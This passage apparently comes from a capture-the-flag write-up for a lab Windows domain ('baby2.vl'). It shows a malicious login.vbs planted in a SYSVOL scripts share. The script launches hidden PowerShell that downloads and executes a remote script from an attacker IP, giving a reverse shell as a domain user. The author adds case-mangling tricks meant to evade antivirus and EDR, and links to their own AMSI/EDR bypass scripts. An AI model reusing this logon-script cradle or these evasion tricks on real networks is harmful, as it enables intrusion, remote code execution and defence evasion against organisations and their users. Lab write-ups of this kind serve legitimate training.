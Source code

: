 ![alt text](../assets/images/2024-06-27-200732_1916x822_scrot.png)

>Let create malicious vbs file and upload where ameliea has run it (\\baby\SYSVOL\baby2.vl\scripts\login.vbs)
### malicious login.vbs

    CreateObject("WScrIpt.SheLL").Run "powershell -ep bypass -w hidden IEX (New-ObjEct System.Net.Webclient).DownloadString('http://10.8.2.152/osman.ps1')"

<mark>I wanna explain something here which one too important:</mark>

1. WScript.Shell -> WScrIpt.SheLL
2. New-ObjEct    -> New-ObjEct
## amelia.griffiths
We put our command those cauze of any AV/EDR! and u need to change ur reverse shell ps1 file. U can hit mines over here.

[AV/EDR bypass .ps1 file at my github](https://github.com/lineeralgebra/bypass-EDR-and-AMSI)

>we can see size changed and she put our malicious vbs file and hit back shell as amelia.griffiths

![alt text](../assets/images/2024-06-27-203846_1267x487_scrot.png)
